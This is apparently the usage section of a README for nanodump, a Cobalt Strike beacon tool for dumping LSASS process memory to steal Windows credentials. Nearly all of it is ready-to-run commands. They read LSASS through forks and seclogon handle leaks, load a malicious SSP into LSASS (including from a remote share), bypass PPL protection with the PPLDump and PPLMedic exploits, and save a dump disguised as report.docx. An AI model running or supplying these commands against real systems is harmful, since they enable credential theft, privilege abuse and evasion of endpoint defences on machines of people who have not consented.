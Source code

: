 Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use the seclogon leak remote to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --seclogon-leak-remote C:\Windows\notepad.exe --fork --valid
```

Get a handle with seclogon leak local, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --seclogon-leak-local --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --duplicate --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
beacon> load_ssp
beacon> delete_file C:\Windows\Temp\[RANDOM].dll
```

Load nanodump in LSASS as an SSP remotely:
```
beacon> load_ssp \\10.10.10.10\openShare\nanodump_ssp.x64.dll
```

Dump LSASS bypassing PPL using the PPLDump exploit, duplicating the handle that csrss.exe has on LSASS:
```
beacon> nanodump_ppl_dump --duplicate --write C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLMedic exploit, opening a low privileged handle to LSASS and then elevating it:
```
beacon> nanodump_ppl_medic --elevate-handle --write C:\Windows\Temp\lsass.dmp
```

Trick seclogon to open a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
beacon> nanodump --seclogon-duplicate
```
